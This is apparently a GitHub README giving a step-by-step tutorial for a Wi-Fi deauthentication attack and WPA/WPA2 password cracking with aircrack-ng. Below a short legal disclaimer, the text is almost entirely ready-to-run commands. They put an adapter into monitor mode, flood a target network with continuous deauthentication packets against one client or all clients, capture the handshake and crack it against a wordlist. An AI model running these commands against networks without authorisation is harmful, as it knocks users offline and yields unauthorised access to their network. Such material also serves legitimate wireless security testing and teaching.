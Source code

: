 # Deauthentication Attack and Wi-Fi Password Cracking using aircrack-ng

## Disclaimer
**WARNING: Unauthorized access to computer networks is illegal and unethical. This guide is intended for educational purposes only and should only be used on networks for which you have explicit permission. Misuse of this information can lead to severe legal consequences.**

## Prerequisites
- A computer with a compatible wireless network adapter that supports monitor mode.
- `aircrack-ng` suite installed.
- Root or sudo access.

## Step 1: Install aircrack-ng
To install the `aircrack-ng` suite, use the following commands:

```bash
# Update package lists
sudo apt update

# Install aircrack-ng
sudo apt install aircrack-ng

## Step 2: Set Wireless Interface to Monitor Mode
Find your wireless interface name and set it to monitor mode.
# List network interfaces
sudo iwconfig

# Stop any process that could interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on your wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0

# Verify that the interface is now in monitor mode (e.g., wlan0mon)
sudo iwconfig

##Step 3: Capture Traffic with airodump-ng
# Start capturing packets on the monitor mode interface
sudo airodump-ng wlan0mon

# Note the BSSID (MAC address) and channel of the target network
##Step 4: Deauthentication Attack with aireplay-ng
Send deauthentication packets to disconnect clients from the target network, forcing them to reconnect and capture the handshake.

# Deauthenticate a specific client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <Client_MAC> wlan0mon

# Deauthenticate all clients from the target network
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

##Step 5: Capture the WPA/WPA2 Handshake
# Capture the handshake by specifying the BSSID and channel
sudo airodump-ng -c <Channel> --bssid <BSSID> -w capture wlan0mon

# Look for "WPA handshake" in the airodump-ng output

##Step 6: Crack the Password with aircrack-ng
# Run aircrack-ng with the captured handshake file and a wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap


